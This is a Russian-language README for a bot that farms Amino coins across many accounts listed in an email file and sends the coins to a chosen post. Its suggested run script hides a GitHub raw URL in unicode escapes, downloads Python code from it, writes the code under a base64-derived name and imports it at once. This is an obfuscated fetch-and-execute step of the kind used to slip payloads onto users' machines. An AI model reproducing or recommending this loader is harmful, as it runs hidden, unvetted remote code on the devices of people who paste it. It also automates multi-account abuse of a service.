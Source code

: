 # Amino-Farm-Bot
Бот для фарма монет в Амино. 
___
- Для фарма нужно создать файл с почтами.
    - Новая почта >> новая строка. 


- Перед фармом бот запросит ссылку на пост (запись в блоге).
    - Сообщество должно быть открытым.

    - Ваш уровень в нем:
        - выше пятого.

    - Монеты придут на этот пост.
___

- Процес.
    - Приносит 38.
        - Может и сотку или больше.
        - Тут уж зависит от инета и везения. 
    - Фарм долгий:
        - иначе мало монет. 

    - Отправка мгновенная со всех аккаунтов сразу:
        - хоть что-то радует. 
___

- Монеты приносит раз в 24 часа.
    - << Не раз в сутки <<.
___

- Модули устанавливаются сами.
    - Просто запустите код:
        - к примеру pydroid3.
___

- Пример, который запустит Ваш фарм.

```
import requests, os, time
import base64

name = base64.b64encode("\u0041\u006e\u0061\u006e\u0061\u0073\u0069\u006b".encode("ascii")).decode().split("=")[0]
code = requests.get("\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0072\u0061\u0077\u002e\u0067\u0069\u0074\u0068\u0075\u0062\u0075\u0073\u0065\u0072\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u002e\u0063\u006f\u006d\u002f\u0041\u006d\u0065\u0044\u0061\u0072\u006b\u002f\u0041\u006d\u0069\u006e\u006f\u002d\u0046\u0061\u0072\u006d\u002d\u0042\u006f\u0074\u002f\u006d\u0061\u0069\u006e\u002f\u0066\u0061\u0072\u006d\u002e\u0070\u0079").text

open("{}.py".format(name), "w").write(code)
os.system("echo 'Ananasik :3 \n'")

from threading import Thread
def work():
    __import__(name)

Thread(target = work).start()

input()
```
___

- По вопросам:
    - [Телеграмм](https://t.me/meow3942).

